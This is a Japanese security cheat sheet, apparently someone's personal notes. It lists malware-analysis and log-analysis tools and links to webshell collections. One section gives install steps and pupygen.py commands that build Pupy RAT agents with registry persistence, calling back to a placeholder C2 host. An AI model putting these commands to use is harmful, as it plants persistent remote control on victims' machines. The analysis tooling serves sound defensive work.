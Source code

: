 ■マルウェア解析/
・UPX
・IDA Pro free
・Immunity Debugger
・ILSpy
・Process Explorer
・Process Monitor
・resource_hacker
・BinText (無償)
http://www.mcafee.com/jp/downloads/free-tools/bintext.aspx
ファイルから文字列を取得するツールです。バイナリファイルから可読文字列を調査する場合等に利用します。
・edagrep.py(beta ver) 
https://github.com/edashin/python_scripts/blob/master/edagrep.py
マルウェアが残す文字列を検索し、ヒットした位置の周辺データを抽出するPythonスクリプトです。
・ApateDNS 1.0 (無償)
https://www.fireeye.com/services/freeware/mandiant-apatedns.html
DNS応答を制御するツールです。マルウェアを動作させる際に、偽のDNS応答を返したりする際に利用します。
・emdivi_string_decryptor.py (無償)
https://github.com/JPCERTCC/aa-tools/blob/master/emdivi_string_decryptor.py
Emdiviの検体から、暗号化された文字列をパースするPythonスクリプトです。検体のバージョン情報や、C2サーバ情報等が取得できます。
・PEView (無償)
http://wjradburn.com/software/
プログラムのヘッダ情報の参照に利用します。


■C2使用例
・Pupy
https://github.com/n1nj4sec/pupy
インスコ
$git clone https://github.com/n1nj4sec/pupy.git pupy
$cd pupy
$git submodule init
$git submodule update
$sudo apt-get install python-psutil python-netifaces python-m2crypto python-lzma liblzma5 lzma-dev python-cxx-dev
$sudo pip install -r pupy/requirements.txt
rat生成
$python pupygen.py -o agent_x86.exe -s persistence,method=registry auto_proxy 
--host 【C2URL】:443 -t http --add-proxy プロキシアドレス:ポート --no-direct
$python pupygen.py -A x64 -o agent_x64.exe -s persistence,method=registry auto_proxy 
--host 【C2URL】:443 -t http --add-proxy プロキシアドレス:ポート --no-direct

■WebShell
https://github.com/mal-project/shell
https://github.com/tennc/webshell/tree/master/caidao-shell
・高機能シェル
https://blog.netspi.com/hacking-with-jsp-shells/
https://gist.github.com/antimatter15/a2375e36f0f04dc6b3fb
⇒ https://www.akamai.com/cn/zh/multimedia/documents/report/akamai-security-advisory-web-shells-backdoor-trojans-and-rats.pdf

■ログ解析
・iLogScanner
https://www.ipa.go.jp/security/vuln/iLogScanner/index.html
・shellhack
https://www.shellhacks.com/regex-find-email-addresses-file-grep/
